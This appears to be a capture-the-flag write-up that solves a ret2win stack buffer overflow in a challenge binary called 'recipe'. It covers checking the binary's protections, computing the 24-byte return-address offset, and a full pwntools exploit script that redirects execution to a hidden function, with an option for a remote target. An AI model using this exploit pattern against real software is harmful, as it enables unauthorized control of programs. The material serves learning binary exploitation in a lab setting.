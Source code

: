 If we overwrite the return address to point to this function, we will get the flag.

## Static Binary Analysis

Before writing an exploit, I checked protections:
```
$ checksec recipe
Arch:       amd64-64-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
```

- NX enabled we cannot inject shellcode, but we can reuse code (return-to-function).
- No PIE function addresses do not change between runs.
- No canary, no stack protections to bypass.

This screamed classic ret2win.

## Finding the Offset

From the source:

- Buffer size: 16 bytes
- Saved RBP: 8 bytes
- Return address overwrite begins after 16 + 8 = 24 bytes.

## Writing the Exploit

Here is the final Python exploit with pwntools:
```python
#!/usr/bin/env python3
from pwn import *
import argparse

RECIPE_BUFFER_SIZE = 16
RBP_SIZE = 8
PROMPT = "Please enter the name of the recipe you want to retrieve:"

parser = argparse.ArgumentParser()
parser.add_argument("--remote", help="remote target in form host:port", default=None)
args = parser.parse_args()

e = ELF("./recipe")

if args.remote:
    host, port = args.remote.split(":")
    port = int(port)
    io = remote(host, port, ssl=True)
    SECRET_ADDRESS = e.symbols['secret_dough_recipe']
else:
    io = e.process()
    SECRET_ADDRESS = e.symbols['secret_dough_recipe']

log.info(f"Using secret address: {hex(SECRET_ADDRESS)}")

payload = b"A" * RECIPE_BUFFER_SIZE
payload += b"B" * RBP_SIZE
payload += p64(SECRET_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```